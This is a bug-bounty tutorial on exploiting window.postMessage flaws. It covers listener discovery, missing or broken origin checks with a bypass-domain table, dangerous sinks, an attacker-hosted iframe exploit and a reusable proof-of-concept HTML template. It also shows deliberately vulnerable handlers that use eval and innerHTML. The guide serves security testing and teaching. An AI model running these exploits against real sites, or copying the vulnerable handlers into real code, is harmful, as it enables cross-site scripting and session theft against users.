


> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/postMessage-Vulnerabilities

# postMessage Vulnerabilities

`window.postMessage` lets windows talk to each other across origins. The API is simple. The security model is not. Almost every implementation I've tested has at least one of these problems: no origin check on incoming messages, a broken origin check, or trusting message data without sanitization.

This is one of my favourite bug classes because it sits in a sweet spot. Common enough that you find it regularly, underestimated enough that programs often undervalue it initially, and chainable enough that you can almost always escalate the impact.

## How postMessage Works



The receiver sets up a listener with `window.addEventListener('message', handler)`. The handler gets a `MessageEvent` with three properties that matter: `event.data` (the payload), `event.origin` (where it came from), and `event.source` (reference to the sender window).

Security lives or dies on what the handler does with `event.origin`.

## Finding postMessage Listeners

### Quick Discovery

Open DevTools on the target page. Console:

```javascript
// List all message event listeners on the window
getEventListeners(window).message
```

Chrome only (not Firefox). Returns an array of listener objects. Click the source location to jump to the handler code.

If `getEventListeners` isn't available or the code is heavily bundled:

```javascript
// Override addEventListener to log postMessage registrations
const original = window.addEventListener;
window.addEventListener = function(type, listener, options) {
    if (type === 'message') {
        console.log('postMessage listener registered:', listener.toString().substring(0, 200));
        console.trace();
    }
    return original.call(this, type, listener, options);
};
```

Paste this in the console before the page loads (use a Burp match-and-replace rule to inject it, or Sources > Snippets in DevTools with a breakpoint on the first line of page script).

### Systematic Discovery

For a thorough pass, search the JS bundles:

```bash
# Download all JS files
cat urls.txt | grep "\.js$" | httpx -silent | xargs -I{} wget -q {}
 
# Search for postMessage patterns
grep -rn "addEventListener.*message" *.js
grep -rn "postMessage" *.js
grep -rn "onmessage" *.js
 
# Find what third-party widgets are loaded
grep -rn "iframe.*src=" *.js
grep -rn "window\.open" *.js
```

Third-party widgets are goldmines here. Chat widgets, analytics loaders, payment forms, social login popups. They all use postMessage to communicate with the parent page, and the integration code is often written by someone who didn't read the MDN docs on origin checking.

## Vulnerability Patterns

### Pattern 1: No Origin Check

The worst case. Handler processes every message regardless of source.

```javascript
// Vulnerable: no origin check at all
window.addEventListener('message', function(event) {
    document.getElementById('output').innerHTML = event.data.content;
});
```

Exploitation is trivial:

```html
<!-- attacker.com/exploit.html -->
<iframe src="https://target.com/vulnerable-page" id="target"></iframe>
<script>
    const target = document.getElementById('target');
    target.onload = function() {
        target.contentWindow.postMessage(
            { content: '' },
            '*'
        );
    };
</script>
```

### Pattern 2: Broken Origin Check

The handler has an origin check but it's implemented wrong. This is more common than no check at all, because devs know they should check origin but don't understand the gotchas.

```javascript
// Vulnerable: indexOf allows attacker-controlled substrings
window.addEventListener('message', function(event) {
    if (event.origin.indexOf('target.com') !== -1) {
        // attacker-target.com passes this check
        eval(event.data);
    }
});
```

Bypass patterns:

| Broken Check | Bypass Domain |
| --- | --- |
| `origin.indexOf('target.com')` | `attacker-target.com` |
| `origin.endsWith('target.com')` | `attackertarget.com` |
| `origin.startsWith('https://target')` | `https://targetevil.com` |
| `origin.match(/target\.com/)` | `attacker-target.com` (regex not anchored) |
| `origin === 'null'` | `data:` URI or sandboxed iframe sends origin `null` |

The only correct check:

```javascript
if (event.origin !== 'https://target.com') return;
```

### Pattern 3: Origin Check Present, Data Used Unsafely

Origin check is fine. But the handler takes the message data and does something dangerous with it.

```javascript
window.addEventListener('message', function(event) {
    if (event.origin !== 'https://trusted-widget.com') return;
 
    // Origin check is solid, BUT:
    // if you find XSS on trusted-widget.com,
    // you can send messages from a trusted origin
    document.location = event.data.redirectUrl;
});
```

This is where chain thinking kicks in. The postMessage handler itself is secure against direct attack. But if you can find any XSS on the trusted origin, you can use it to send crafted messages that pass the origin check.

### Pattern 4: Message Used in eval / innerHTML / document.write

Even with origin checks, if the data flows into a dangerous sink you've got DOM XSS via postMessage:

```text
event.data -> innerHTML      // XSS
event.data -> eval()         // XSS
event.data -> document.write // XSS
event.data -> location       // Open redirect
event.data -> fetch(url)     // SSRF (client-side)
event.data -> $.html()       // XSS (jQuery)
event.data -> v-html         // XSS (Vue)
event.data -> dangerouslySetInnerHTML  // XSS (React)
```

## Real-World: Third-Party Widget Exploitation

Third-party chat widgets, support widgets, and analytics scripts are frequently vulnerable because:

1. They're embedded via iframe on the target domain
2. They use postMessage to communicate with the parent page
3. The parent page handler trusts messages from the widget origin
4. The widget is a separate product with its own attack surface

The attack path:



I've found this pattern on major financial institutions where the chat widget integration code blindly trusted any message matching a loose origin pattern. The widget vendor's domain had its own vulnerabilities. Chain them together and you've got XSS on the bank's domain, executing in the context of a logged-in banking session.

## Proof of Concept Template

```html
<!DOCTYPE html>
<html>
<head><title>postMessage PoC</title></head>
<body>
<h2>postMessage PoC - [TARGET]</h2>
<p>Status: <span id="status">Loading target...</span></p>
 
<!-- Option 1: iframe (works if X-Frame-Options allows) -->
<iframe src="https://target.com/vulnerable-page" id="target"
    style="width:800px;height:400px;border:1px solid #ccc;"></iframe>
 
<!-- Option 2: popup (use if iframe is blocked) -->
<!-- <button onclick="openTarget()">Open Target</button> -->
 
<script>
    // Listen for any responses from the target (useful for data exfil)
    window.addEventListener('message', function(event) {
        console.log('[Received]', event.origin, event.data);
        document.getElementById('status').innerText =
            'Received response from ' + event.origin;
    });
 
    // iframe approach
    document.getElementById('target').onload = function() {
        const payload = {
            // Adjust based on what the handler expects
            type: 'widget-init',
            content: ''
        };
 
        this.contentWindow.postMessage(payload, '*');
        document.getElementById('status').innerText = 'Payload sent';
    };
 
    // popup approach (uncomment if needed)
    // let targetWindow;
    // function openTarget() {
    //     targetWindow = window.open('https://target.com/vulnerable-page');
    //     setTimeout(function() {
    //         targetWindow.postMessage(payload, '*');
    //     }, 2000); // wait for page to load
    // }
</script>
</body>
</html>
```

## Impact Statement Template

> The application at `[URL]` registers a `message` event listener that processes incoming postMessage data without [validating the sender's origin / sufficient origin validation / sanitizing the message data]. An attacker can host a page that embeds the vulnerable page in an iframe (or opens it in a popup) and send crafted messages that are processed by the handler, resulting in [XSS execution in the context of the target origin / sensitive data exfiltration / arbitrary redirect].
> 
> This affects any user who visits an attacker-controlled page while authenticated to `[target.com]`. The attacker can [steal session tokens / perform actions on behalf of the user / access sensitive data displayed on the page].

## Checklist

- Search all JS for `addEventListener('message'` and `onmessage`
- For each handler: is there an origin check?
- If yes: is it a strict exact match against the full origin string?
- If yes: can you find XSS on the trusted origin?
- Where does `event.data` flow? (innerHTML, eval, location, fetch?)
- Does the target embed third-party widgets? Check their message handlers too
- Test both iframe and window.open delivery. Some handlers only fire in one context
- Check if the page sends postMessages outbound. Can you intercept them with an `opener` reference?

## See Also

- [DOM XSS](../../../Attack-Surface/Web/Injection/XSS/DOM-XSS)
- [CORS Misconfigurations](../../../Attack-Surface/Web/Client-Side/CORS)
- [JavaScript Analysis](../../../Recon/JavaScript-Analysis)
- [XSS -> Privilege Escalation](../../../Chains/XSS-to-Privilege-Escalation)
